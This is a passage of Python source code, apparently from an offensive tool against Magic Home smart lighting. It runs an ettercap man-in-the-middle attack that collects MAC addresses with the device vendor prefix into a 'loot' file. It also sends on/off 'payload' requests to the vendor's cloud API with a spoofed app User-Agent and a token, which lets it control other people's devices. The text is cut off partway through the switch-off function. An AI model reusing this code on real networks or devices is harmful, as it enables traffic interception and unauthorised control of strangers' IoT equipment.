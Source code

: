 ```
                        loot.append(src_mac)
                        f.write(src_mac + "\n")
                elif 'c8:2e:47'.upper() in dst_mac:
                    if dst_mac in loot:
                        pass
                    else:
                        print (Fore.WHITE + '[+] Device ' + dst_mac + ' added to loot !'+ Style.RESET_ALL)
                        loot.append(dst_mac)
                        f.write(dst_mac + "\n")
                else:
                    pass
            except KeyboardInterrupt:
                print (Fore.WHITE + "[+] Stopping MiTM"+ Style.RESET_ALL)
                time.sleep(2)
                subprocess.Popen.kill(ettercap)
                print (Fore.WHITE + '[+] Reconfiguring IP Forwarding'+ Style.RESET_ALL)
                time.sleep(2)
                os.system('sudo echo 0 > /proc/sys/net/ipv4/ip_forward')
                menu()

def turnOn(target, token):
    urlOn = "https://wifij01us.magichue.net/app/sendCommandBatch/ZG001"
    array = {
        "dataCommandItems":[
            {"hexData":"71230fa3","macAddress":target}
        ]
    }

    data = json.dumps(array)

    headersOn = {
        "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
        "Accept-Language": "en-US",
        "Accept": "application/json", 
        "Content-Type": "application/json; charset=utf-8",
        "token":token,
        "Host": "wifij01us.magichue.net",
        "Connection": "close",
        "Accept-Encoding": "gzip, deflate"
    }

    print (Fore.WHITE + "[+] Sending Payload ...")
    response = requests.post(urlOn, data=data, headers=headersOn)
    if response.status_code == 200:
        if "true" in response.text:
            print (Fore.GREEN + "[*] Endpoint " + Fore.WHITE + f"{target}" + Fore.GREEN + " Switched On" + Style.RESET_ALL)
        else:
            print (Fore.RED + "[-] Failed to switch on Endpoint " + Style.RESET_ALL + f"{target}")

def turnOff(target, token):
    urlOff = "https://wifij01us.magichue.net/app/sendCommandBatch/ZG001"

    array = {
        "dataCommandItems":[
            {"hexData":"71240fa4","macAddress":target}
        ]
    }

    data = json.dumps(array)
    headersOff = {
        "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
```